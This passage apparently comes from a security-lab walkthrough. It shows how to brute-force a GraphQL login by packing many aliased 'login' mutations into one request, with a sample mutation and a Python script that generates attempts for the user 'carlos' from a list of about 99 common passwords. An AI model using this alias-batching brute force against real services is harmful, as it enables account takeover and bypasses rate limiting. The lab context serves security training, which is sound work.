 ```json
mutation {
        attack0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }
          attack1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }
          attack2:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

To create all 99 logins faster, create a simple Python script:

```python
passwords = """123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,
monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,
000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,
sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,
jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,
amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,
mobilemail,mom,monitor,monitoring,montana,moon,moscow""".replace("\n", "").split(',')

graphql_queries = []

# Generate the GraphQL query aliases
for index, password in enumerate(passwords):
    query = f"""
    attack{index}: login(input: {{password: "{password}", username: "carlos"}}) {{
        token
        success
    }}
    """
    graphql_queries.append(query)

# Join all the queries into one string with newlines separating each query
final_query = "\n".join(graphql_queries)

# Output the generated GraphQL query string
print(final_query)
```
# GraphQL CSRF
